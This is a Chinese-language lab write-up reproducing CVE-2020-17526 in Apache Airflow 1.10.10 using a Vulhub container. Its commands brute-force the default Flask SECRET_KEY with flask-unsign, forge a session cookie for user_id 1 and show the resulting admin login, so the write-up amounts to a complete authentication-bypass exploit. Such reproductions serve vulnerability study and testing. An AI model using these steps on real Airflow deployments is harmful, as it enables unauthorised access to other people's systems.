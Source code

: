 # Apache Airflow 默认密钥导致的权限绕过 CVE-2020-17526

## 漏洞描述

Apache Airflow是一款开源的，分布式任务调度框架。默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定`webserver.authenticate=True`来开启认证。

在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。

参考链接：

- https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
- https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise

## 环境搭建

Vulhub执行如下命令启动一个Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

首先，我们访问登录页面，服务器会返回一个签名后的Cookie：

```
curl -v http://localhost:8080/admin/airflow/login
```

![image-20220329105609442](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251948002.png)

然后，使用[flask-unsign](https://github.com/Paradoxis/Flask-Unsign)这个工具来爆破签名时使用的`SECRET_KEY`：

```
# 安装flask-unsign
pip install flask-unsign[wordlist]

# 开始爆破
flask-unsign -u -c [session from Cookie]
```

![image-20220329105921359](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251948003.png)

Bingo，成功爆破出Key是`temporary_key`。使用这个key生成一个新的session，其中伪造`user_id`为1：

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![image-20220329110052524](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251948004.png)

新生成的session为：

```
eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.YkJ2WQ.sUbyyQy70a2A6FPd6fO6UVAyQ-U
```

在浏览器中使用这个新生成的session，可见已成功登录：

![image-20220329110946880](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251948005.png)

可以使用Chrome插件[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related?hl=zh)对Cookie进行修改。

